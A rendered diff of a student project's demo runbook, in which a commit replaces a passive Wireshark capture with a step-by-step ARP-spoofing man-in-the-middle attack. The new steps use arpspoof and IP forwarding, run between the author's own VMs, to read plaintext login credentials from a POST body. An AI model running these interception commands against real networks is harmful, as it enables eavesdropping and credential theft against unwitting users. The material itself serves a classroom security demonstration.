

Before and after one commit to bayaCh05/study-bridge, a Markdown page: docs/PHYSICAL_DEMO_RUNBOOK.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/docs/PHYSICAL_DEMO_RUNBOOK.md
+++ b/docs/PHYSICAL_DEMO_RUNBOOK.md
@@ -9,7 +9,7 @@ Oct 19, 2026 · @baya
 - [ ] Decide who logs in as which role on which physical machine, so the "simultaneous roles" demo is real, not staged
 - [ ] Server VM: repo pulled (`git pull origin main`), ready to run
 - [ ] Each client machine just needs a modern browser — no install needed (a VM is optional, not required)
-- [ ] Whichever machine runs the Wireshark capture: confirm Wireshark or `tcpdump` is installed there
+- [ ] On the Mac (the attacker machine): `brew install dsniff` and Wireshark both installed — test `arpspoof` once before the real presentation, on this same hotspot, to confirm the AP doesn't block device-to-device ARP (see Troubleshooting)
 
 ## Network setup (join the hotspot)
 
@@ -59,30 +59,42 @@ Then open `http://<server-ip>:8000/login` in the browser, log in with a demo acc
 
 Repeat from a second client, logged in as a different role, at the same time, to demonstrate concurrent multi-role use.
 
-## Wireshark MITM capture
+## Man-in-the-middle attack (ARP spoofing — the real thing)
 
-Pick the capture method for whichever host is doing it.
+The brief requires a genuine intercepting attacker, not just a passive capture of your own traffic. The Mac is the attacker; the two Ubuntu VMs are the victims (client and server). Two terminals on the Mac run the attack; it keeps running for the rest of the demo.
 
-**Client with no VM (recommended path)** — capture its own Wi-Fi interface directly:
+**0. Get the real IPs first**, on each VM: `ip addr show | grep 'inet '`. On the Mac: `ifconfig en0 | grep 'inet '`. All three must be on the same hotspot subnet (e.g. `172.20.10.0/28`).
+
+**1. Install the tool on the Mac** (once, ahead of time): `brew install dsniff` — gives you `arpspoof`.
+
+**2. Enable IP forwarding on the Mac** — this is what keeps the connection alive while intercepting it:
 
 ```bash
-sudo tcpdump -i en0 -w ~/captures/client.pcap 'tcp port 8000'
+sudo sysctl -w net.inet.ip.forwarding=1
+sysctl net.inet.ip.forwarding   # confirm it prints "net.inet.ip.forwarding: 1"
 ```
 
-(swap `en0` for the actual Wi-Fi interface name if different — check with `ifconfig` or Wireshark's interface list). Stop with Ctrl+C when done, or just open Wireshark.app, pick the Wi-Fi interface, and start/stop the capture from its UI.
+**3. Capture the "before" ARP state** on the client VM (for the live before/after comparison):
 
-**Host running a VM** — `VBoxManage nictrace` captures that VM's own traffic locally:
-
-```powershell
-mkdir C:\captures
-$env:Path += ";C:\Program Files\Oracle\VirtualBox"
-VBoxManage showvminfo "<VM name>" | findstr /i "NIC"
-VBoxManage controlvm "<VM name>" nictracefile<N> "C:\captures\<vmname>.pcap"
-VBoxManage controlvm "<VM name>" nictrace<N> on
+```bash
+arp -a | grep <server-ip>
 ```
 
-Stop before opening the file: `VBoxManage controlvm "<VM name>" nictrace<N> off`.
+**4. Start Wireshark on the Mac first** — `Wi-Fi: en0`, no filter, so it captures the ARP packets too, not just HTTP.
 
-Either way: generate real traffic by actually **submitting the login form** (fill email + password, click "Log in") on the client being captured — a bare `curl` GET won't capture credentials, since they only go out in the login POST body.
+**5. Run the spoof — two terminals on the Mac, both left running for the rest of the demo:**
 
-Merge multiple capture files in Wireshark (**File → Merge**) for one combined view.
+```bash
+# Terminal A — tells the client "the server is at my MAC"
+sudo arpspoof -i en0 -t <client-ip> <server-ip>
+
+# Terminal B — tells the server "the client is at my MAC"
+sudo arpspoof -i en0 -t <server-ip> <client-ip>
+```
+
+**6. Prove the poisoning worked** — back on the client VM: `arp -a | grep <server-ip>` again. The MAC address for the server's IP should now match the **Mac's** MAC instead of the real server's. This before/after is the clean, concrete proof point.
+
+**7. Trigger real traffic** — on the client VM's browser, actually submit the login form (not `curl` — credentials only go out in the POST body).
+
+**8. In Wireshark**, filter `http.request.method == "POST" && http.request.uri == "/api/login"`, right-click the packet → **Follow → TCP Stream** — the plaintext JSON body with the credentials is now visible, captured on the Mac even though the Mac was never meant to see this traffic.
+
````
Also changed, not shown: other parts of docs/PHYSICAL_DEMO_RUNBOOK.md (+26 -7 lines).
